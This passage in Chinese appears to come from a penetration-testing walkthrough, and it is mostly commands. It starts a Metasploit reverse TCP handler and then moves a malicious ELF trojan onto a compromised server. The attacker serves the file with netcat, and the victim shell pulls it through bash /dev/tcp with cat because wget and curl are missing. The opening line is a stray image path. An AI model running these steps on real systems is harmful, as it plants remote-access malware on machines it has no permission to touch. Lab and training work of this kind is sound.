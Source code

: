 ```bash
```

开启监听

```bash
msf6 exploit(multi/handler) > set LHOST 0.0.0.0
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:4444 
```

## 上传木马

由于服务器没有wget与curl命令，我们需要使用cat命令上传恶意木马

首先使用nc命令，监听999端口

```
nc -lvp 999 < shell.elf
``

之后在之前获取到的 `bash` 中执行以下命令


```bash
cat < /dev/tcp/<nc监听的IP>/999 > shell.elf
```

图片

![cat上传文件](/img/02/01_cat上传文件.png)


上传成功的效果如图上

然后需要在右边窗口停止 nc 运行

然后通过 `ls -l` 命令比对文件大小，确保文件上传完整
